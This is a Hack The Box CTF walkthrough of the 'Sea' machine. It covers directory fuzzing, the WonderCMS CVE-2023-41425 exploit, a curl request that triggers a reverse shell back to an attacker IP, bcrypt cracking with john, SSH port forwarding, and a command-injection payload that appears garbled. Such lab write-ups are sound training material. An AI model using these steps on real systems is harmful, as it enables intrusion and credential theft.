 
2024-08-17 13:23

Source: #htb #CTF #privesc 
### Reconnaissance 

- `nmap` scan shows `22/tcp ssh` & `80/tcp http`
- the home page of the website isn't useful 
- on visiting the 2nd page we find a contact button that takes us to `contact.php`

`Contact.php` has a few input fields. The first thing that comes up in mind is XSS. 
trying out XSS payloads don't really do anything
### Enumeration

#### using Dirbuster

open the GUI version of Dirbuster and check the `use Blank Extension` box this will find sub-directories of sub-directories. we find `/themes/bike` gets `301` response. 
#### Alternate using [[ffuf]] 

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://sea.htb/FUZZ
```
and further find sub-directories of sub-directories of `/themes` (`/themes` was one of the outputs of the above command) we choose `/themes` hoping to find a `cms` 
```shell
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://sea.htb/themes/FUZZ
```
on running `ffuf` again we find a `/bike` directory that has a `301` response.

- we get a `403` error when trying to open this in the browser 
> - Try to put files after `/bike/` like `LICENSE`, `robots.txt`, `README.md` and fortunately `README.md` gave something interesting

- take the `GET` request made to `/themes/bike` that gave us `403` error 
- now in the burp repeater change the `GET` request to `/themes/bike/README.md` and hit
- in the response we see that we have instructions on how to use `WonderCMS`
- above in the dirbuster results we saw a `themes/bike/version` directory that gives us the version of the CMS on visiting the URL.
### Exploit

Cross Site Scripting vulnerability in Wonder CMS v.3.2.0 thru v.3.4.2 allows a remote attacker to execute arbitrary code via a crafted script uploaded to the `installModule` component.
- we can get the script for this from github 

- running the exploit and having a netcat listener open doesn't give us a shell 
- we somehow have to trigger the `rev.php` file to make target server’s connection with our machine so, lets run this command in another terminal while having the listener on

I saw this line mentioned multiple times in the code `(“GET”, urlWithoutLogBase+”/themes/revshell-main/rev.php”)` So I just put target URL and gave it a shot!
```shell
curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.57&lport=4444'
```

- we have `amay` and `geo` in the home directory 
- without further ado we run `Linpeas` on this 
- in the interesting files section we find a `/var/www/sea/data/database.js`
- on opening this file we find a password hash (possibly amay's ssh password)

[[Cryptography]] before running john through the password we need to reformat it by removing `\` in order to crack it successfully. use John The Ripper
```shell
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt filename.txt
```
### Privilege Escalation 

Run `Linpeas`... we don't really find anything
I then decided to check if there is anything on Amay’s local host. To do that there is a technique called [[Port Forwarding]]. It basically takes a user’s port and redirect it’s traffic to our port. run the following on your local machine 
```shell
ssh -L 4444:localhost:8080 amay@sea.htb
```
If you’re logged in, you’re good to go. If not, check what’s running on your localhost:4444 you can check that by this command:
```shell
sudo lsof -i :4444
```
If you see some other services, kill the PID and then try the [[ssh]] command again.

go to `localhost:4444` in your local browser and login with username as amay and password as mychemicalromance(cracked hash password)

we see a system monitoring page that is under development and we also see a analyze button that analyses the log files 
keep [[burpsuite]] on for rest of the process

- on capturing the request of analysis of the access.log we don't see anything useful
- we try command [[injection]] in the field that specifies the path of the log file in the burp request and get an error that says `suspicious traffic patterns detected` 

below is the URL encoded payload
```shell
log_file=/root/root.txt%3bcp/dev/shm/sudoers>+/etc/suoderskanalyze_log&analyze_log=
```
What this command did is that it inadvertently redirected the content of this file as output, which was then captured and displayed. The exposure occurred due to unintended side effects of the command’s syntax and execution.

### References
https://app.hackthebox.com/competitive/6/overview

walkthrough - https://medium.com/@haroonharoon17/sea-hack-the-box-walk-through-77b1030ce0bc

CMS exploit - [GitHub - prodigiousMind/CVE-2023-41425: WonderCMS Authenticated RCE - CVE-2023-41425](https://github.com/prodigiousMind/CVE-2023-41425?source=post_page-----77b1030ce0bc--------------------------------)


